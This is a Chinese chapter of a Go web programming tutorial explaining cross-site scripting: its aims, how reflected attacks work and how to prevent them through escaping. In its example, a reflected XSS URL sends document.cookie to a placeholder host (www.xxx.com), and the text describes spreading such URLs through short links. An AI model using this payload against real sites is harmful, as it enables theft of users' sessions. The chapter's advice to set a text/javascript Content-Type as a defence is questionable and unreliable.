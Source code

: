 ##9.3 避免XSS攻击 
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取客户端的cookie或者其他网站用于识别客户端身份的敏感信息。获取到合法用户的信息后，攻击者甚至可以假冒最终用户与网站进行交互。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

##XSS的原理
XSS漏洞产生的原因是由于Web应用对用户提交请求的数据未做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，然后未加编码地输出到第三方用户的浏览器，这些攻击者恶意提交代码会被受害用户的浏览器解释执行。

许多流行的留言本和论坛程序允许用户发表包含HTML和javascript的帖子。假设用户甲发表了一篇包含恶意脚本的帖子，那么用户乙在浏览这篇帖子时，恶意脚本就会执行，盗取用户乙的cookie信息。有关攻击方法的详细情况请看如下例子：

我们现在有一个网站，根据参数输出用户的名称，例如访问url："http://127.0.0.1/?name=astaxie"，就会在浏览器输出如下信息：

	hello astaxie

那么如果我们传递这样的url："http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>",这个时候你就会发现你的浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞，那么用户如何来获取Cookie呢？也是类似上面的代码，输入如下的url："http://127.0.0.1/?name=<script>document.location='http://www.xxx.com/cookie?'%20+document.cookie</script>"，这样就可以把当前的cookie发送到指定www.xxx.com站点。这样攻击者就可以把类似这样的url进行短域名服务缩短url，然后把这些url通过途径传播开来，被攻击用户一旦点击了这样的url，相应数据就会被发送到收集cookie的脚本中。这样就获得了cookie信息，然后利用Websleuth之类的工具来检查是否能盗取那个账户。

上面的这种漏洞叫做反射式漏洞，其实XSS漏洞还有另外两种：本地利用漏洞和存储式漏洞

- 本地利用漏洞，这种漏洞存在于页面中客户端脚本自身。
- 存储式漏洞，这是目前应用最为广泛而且有可能影响到Web服务器自身安全的漏洞。

##如何预防XSS
其实这个问题很简单，坚决不要相信任何用户输入并过滤所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符
	
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型
	
	Response.Header.Set("Content-Type","text/javascript")

	这样就可以让浏览器解析javascript代码，而不会是html输出。
##总结

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)

## LastModified 
   * $Id$